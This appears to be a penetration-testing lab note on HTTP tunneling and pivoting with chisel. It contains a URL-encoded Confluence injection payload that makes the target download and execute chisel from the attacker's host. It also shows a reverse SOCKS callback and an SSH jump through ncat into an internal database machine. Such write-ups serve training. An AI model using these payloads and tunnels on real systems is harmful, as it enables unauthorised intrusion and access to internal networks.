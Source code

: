 ```yaml
---
layout: post
title: HTTP Tunneling
titledate: 09/24/23
tags: ["infosec", "info_gathering", "offsec", "tunnel", "chisel", "ncat"]
---
```


#### chisel

the chisel tool will create a http tunnel that encapsulates an ssh session

chisel needs a client and server connection, so we need to run chisel on our target

    $ sudo cp $(which chisel) .

    $ python -m http.server 80

now we need to grab chisel on the target, and for this attack we leverage the confluence vulnerability to execute a bash wget command to retrieve our chisel binary

    $ curl http://192.168.50.50:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.1.1/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/

we start the server on our attacking machine

    $ chisel server --port 8080 --reverse

on our attacking machine we dump the tcp traffic on the interface that chisel will be communicating on

    $ sudo tcpdump -nvvvXi tun0 tcp port 8080

once our target1 has the chisel binary we can execute the client , from a web shell, cmd shell etc

    /tmp/chisel client 192.168.1.1:8080 R:socks > /dev/null 2>&1 & 

we can also start the client using the verified confluence injection payload we used to retrieve the binary, but now lets us execute a command

    $ curl http://192.168.50.50:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.1.1:8080%20R:socks%27%29.start%28%29%22%29%7D/

our chisel server should now have an inbound connection from the client

we can use ncat to pass a proxy command to ssh's proxycommand 

    $ ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@10.4.50.50

now we've established an ssh connection to a pg db machine on an internal network via chisel reverse socks proxy tunneled through a reverse http tunnel

### NOTE: may need to try different versions of chisel for compatibility